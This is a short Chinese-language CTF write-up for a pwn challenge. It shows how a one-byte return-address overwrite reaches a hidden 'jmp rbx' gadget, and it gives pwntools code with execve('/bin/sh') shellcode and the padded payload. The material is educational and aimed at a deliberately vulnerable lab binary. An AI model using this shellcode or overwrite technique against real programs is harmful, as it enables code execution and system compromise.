





# shellcode学妹想要玩  
  
没开NX和canary，由题目名字提示得知需要写shellcode。  
由于这题设置的alarm clock触发时间很短，可以用vim打开二进制文件，把里面alarm字符串改成isnan，之后再打开就不会被alarm恶心了。  
  
ida查看  
  
  
buf输入了0x39个字符，正好可以覆盖完rbp后的一个字符，劫持程序跑到其他位置    
  
那当然要看看只改最后一字节的情况下可以指向哪些汇编地址啦。  

打开汇编一看发现不得了的东西，汇编里有一条路径可以jmp rbx，但是在反编译出的c代码中没有显示出来，这也说明还是得看看汇编，不能盲从ida。 
测试发现输入完成后rbx正好指向输入字符串的位置，那再好不过，只需要写shellcode，补足0x38字节，最后一字节将rbp后的返回地址改成jmp rbx就行了。  
要注意的是shellcode得压缩到0x38字节以内。  
```
shellcode=asm('push 0x68;mov rax ,0x68732f6e69622f;push rax;mov rdi,rsp;xor rsi, rsi;xor rdx, rdx;xor rax,rax;add rax,0x3b;syscall')
p.recvuntil(b'Do u know what\'s is it?\n')
payload=shellcode.ljust(0x38,b'a')+b'\x2a'
```